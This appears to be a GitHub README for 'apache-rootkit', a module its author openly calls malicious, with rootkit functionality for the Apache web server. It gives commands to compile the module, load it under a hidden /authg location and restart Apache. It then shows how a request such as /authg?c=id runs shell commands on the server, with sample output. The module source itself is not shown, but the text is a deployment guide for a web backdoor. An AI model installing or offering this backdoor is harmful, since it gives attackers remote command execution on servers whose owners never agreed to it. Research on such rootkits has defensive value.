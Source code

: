 # apache-rootkit
A malicious Apache module with rootkit functionality
C. Papathanasiou 2015

 Compile by running:
```
   $ apxs -c -i mod_authg.c
```
 Then activate it in Apache's apache2.conf file for instance
 for the URL /authg in as follows:
```
    #   apache2.conf
    LoadModule authg_module modules/mod_authg.so
    <Location /authg>
    SetHandler authg
   </Location>
```
  Then after restarting Apache via
```
    $ apachectl restart
```
  you immediately can request the URL /authg?c=cmd and watch for the
  output of this module. This can be achieved for instance via:
```
    $ lynx -mime_header http://localhost/authg?c=id 
```
  The output should be similar to the following one:
```
     HTTP/1.1 200 OK
     Date: Thu, 19 Feb 2015 16:33:30 GMT
     Server: Apache/2.4.7 (Ubuntu)
     Content-Length: 54
     Connection: close
     Content-Type: text/html

     uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

